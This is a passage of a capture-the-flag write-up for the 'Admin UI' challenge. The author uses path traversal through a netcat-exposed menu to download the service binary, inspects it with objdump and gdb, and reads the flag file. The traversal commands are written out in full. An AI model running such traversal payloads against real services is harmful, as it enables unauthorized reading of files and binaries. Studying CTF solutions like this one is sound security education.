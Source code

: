 We can gather quite a lot from this:
* The executable currently running is located at `/home/user/main`
* Apparently it is a compiled C++ executable

The folder even contains the binary executable located at `/proc/self/exe`.

I simply downloaded the binary using the following command:
```bash
$ echo "2 ../../../../home/user/main 3" | nc mngmnt-iface.ctfcompetition.com 1337 > main.bin
```

After this step the binary still contains some of the junk bytes which were part of the menu (i.e. the user prompt etc.). Trimming the leading and trailing bytes leaves us with the perfectly intact executable.

Let's take a look at the disassembled binary:
```
objdump -d -M intel main.bin | less
```

At first sight we can see several functions:
* `debug_shell`
* `getsxPc`
* `command_line`
* `secondary_login`
* `primary_login`
* `main`

When inspecting the source of *primary_login* we also notice a suspicious named symbol *FLAG_FILE*.

Let's run the executable and connect a debugger to it to see what is going on when trying to log in.

I connect gdb to the process and put a breakpoint to *primary_login*:
```
$ gdb -p <PID of process>
gdb$ break primary_login
```

After navigating the interface to the service access I quickly hit the breakpoint.
When inspecting the memory at `0x41414a2c` (i.e. FLAG_FILE) one will recieve the string 'flag':
```
gdb$ x/s 0x41414a2c
0x41414a2c <_ZL9FLAG_FILE>:     "flag"
```

When stepping through the instructions one quickly realizes that the program opens a file called 'flag' and reads it. Since we have full access to the files we can simply fetch it:

```bash
$ echo "2 ../../../home/user/flag 3" | nc mngmnt-iface.ctfcompetition.com 1337
```

Et voilà! We recieve the next flag *CTF{I_luv_buggy_sOFtware}*!

<a name="adminui2"></a>

### ADMIN UI 2 (pwn-re)
